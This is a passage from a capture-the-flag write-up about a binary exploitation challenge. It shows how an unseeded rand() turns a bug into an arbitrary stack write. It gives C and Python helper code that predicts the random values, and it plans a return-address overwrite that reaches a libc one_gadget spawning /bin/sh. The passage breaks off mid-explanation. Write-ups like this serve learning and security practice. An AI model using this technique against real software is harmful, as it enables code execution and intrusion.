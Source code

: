 Clearly, if we know the random value, this becomes an arbitrary write on the stack as we can 0 the index on the stack we want to overwrite, and then find a random value that equals the negation of the value we want to right. So if we want to write 0xFF at `bunnies + 120`, we choose to attack index 120 when item = 3 and then look for a random value that equals 0x1 afterwards. With this alone we would be able to do a full ROP chain using the given binary.  

Luckily, the challenge never seeds the rand function. To be completely safe, I generated all the random values from the docker image with this C code:
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    printf("20000 random values\n");
    for (int i = 0; i < 20000; i++) {
        printf("%u\n", rand());
    }
}
```
We expect to get every value we would need a few times over with this, so it should be good enough for us. I then wrote some python code to simulate the rand calls that resort.c makes:
```py
import rand_vals as rv
dmgs = [] # The damage we will do when taking action[i]

i = 0 # The number of random values we have generated
taken = 0 # The number of actions we have taken
while taken < 5000:
    taken += 1 # We are taking another action
    
    item = rv.vals[i] % 4 # Generate an item and increase our rand call count
    i += 1

    if item != 3:
        dmg = rv.vals[i] # Generate another random value representing damage done, increase number of rand calls
        i += 1
        dmgs.append(dmg % 255)
    else:
        dmgs.append(-1) # If the item is 3, put a special value to mark it as such

print(dmgs)
```
(rand_vals is a python file with `vals = [<insert random values generated above here>]` in it. Note that you could use ctypes here and it would work just as well.)

### exploit

We can now do ROP gadgets, and ROP gadgets are good, but to use them we would need a LibC leak as we don't have a `syscall` gadget. But we can do more with this information: on the stack we find `__libc_start_call_main + 128` is the return address. We don't have an easy way to leak it, but what we do have is a way to subtract from its bytes. After downloading the libc from the Docker image (and grabbing the wrong one, setting me back an hour or two) we find the following one gadget:
```c
0xebce2 execve("/bin/sh", rbp-0x50, r12)
constraints:
  address rbp-0x48 is writable
  r13 == NULL || {"/bin/sh", r13, NULL} is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp
```
If we look at the disassembly of resort's main function, the postlude looks like this:
```asm
pop    rbx
pop    r12
pop    r13
pop    r14
```
